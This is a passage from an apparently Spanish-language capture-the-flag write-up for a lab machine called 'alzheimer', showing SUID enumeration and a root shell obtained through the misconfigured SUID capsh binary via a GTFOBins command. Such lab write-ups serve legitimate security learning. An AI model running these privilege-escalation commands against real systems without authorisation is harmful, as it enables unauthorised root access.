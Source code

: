 Esto no nos lleva a nada, parece un despiste.

Vamos a revisar los ficheros SUID que hay en el sistema:

~~~bash
medusa@alzheimer:~$ find / -type f -perm -4000 -ls 2>/dev/null
     1249     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    15846    428 -rwsr-xr-x   1 root     root         436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   137057     12 -rwsr-xr-x   1 root     root          10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
       60     44 -rwsr-xr-x   1 root     root          44528 Jul 27  2018 /usr/bin/chsh
     8850    156 -rwsr-xr-x   1 root     root         157192 Feb  2  2020 /usr/bin/sudo
     3888     52 -rwsr-xr-x   1 root     root          51280 Jan 10  2019 /usr/bin/mount
     3415     44 -rwsr-xr-x   1 root     root          44440 Jul 27  2018 /usr/bin/newgrp
     3562     64 -rwsr-xr-x   1 root     root          63568 Jan 10  2019 /usr/bin/su
       63     64 -rwsr-xr-x   1 root     root          63736 Jul 27  2018 /usr/bin/passwd
       59     56 -rwsr-xr-x   1 root     root          54096 Jul 27  2018 /usr/bin/chfn
     3890     36 -rwsr-xr-x   1 root     root          34888 Jan 10  2019 /usr/bin/umount
       62     84 -rwsr-xr-x   1 root     root          84016 Jul 27  2018 /usr/bin/gpasswd
     5584     28 -rwsr-sr-x   1 root     root          26776 Feb  6  2019 /usr/sbin/capsh
~~~

Vemos el binario *capsh*, el cual parece que podemos explotar. Vamos a echar mano de nuestro amigo <https://gtfobins.github.io/gtfobins/capsh/> para convertirnos en root:

~~~bash
medusa@alzheimer:~$ /usr/sbin/capsh --gid=0 --uid=0 --
root@alzheimer:~# cd /root
root@alzheimer:/root# ls
root.txt
root@alzheimer:/root# cat root.txt
~~~

Con esto finalizamos la máquina. Me ha gustado mucho el tema del *Port Knocking*, se me hizo muy asequible y divertida. Dar gracias a *sml* como siempre por su trabajo para la comunidad. Nos vemos en la siguiente.



